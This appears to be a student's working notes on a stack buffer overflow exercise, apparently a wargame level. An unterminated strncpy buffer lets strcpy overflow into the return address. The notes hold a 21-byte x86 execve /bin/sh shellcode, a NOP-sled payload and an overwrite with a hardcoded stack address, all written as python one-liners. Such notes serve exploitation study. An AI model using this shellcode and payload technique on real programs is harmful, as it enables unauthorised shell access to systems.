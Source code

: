 f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728


Sending 20 a's in each read makes it crash on 0x61616161
19 is okay
20 in the first one make it crash on same address
A lot more in the second is fine

The first one makes it crash tho

So can we pass the address in the first to a buffer with a shellcode ?


Ok so yeah, bascially if the first input is less than 20, the \n gets replaced by a \0 sop that strcpy finishes properly.
By sending a string that 20 or more, even if the \n is replaced it won't be copied into the buffer by the strncpy, so buffer1 is a non terminated string, and as such, strcpy will copy both buffer1 and buffer2 into str

There is another strchr that tries to replace the end of buffer1 in str to a space instead of \0

It's weird bcz strcat needs a terminated string and replacing it with a space will create issues


That doesnt matter since we can put stuff in the big buffer that's used to read and then redirect call to it

it's at 0xbf ff e6 80
\x80\xe6\xff\xbf
So we need a shellcode in the first read, but we need to put it far enough for it not to be overwritten by our second call 


\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80 ; 21 len


Our first arg looks something like this
python -c 'print ( "\x90" * 100 + "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80")'

So lets remember that the first 20 x\90 will be copied into our final string

The second will look somethink like 

python -c 'print( "abcdefghi" + "\xd0\xe6\xff\xbf" + "nopqrst" )'
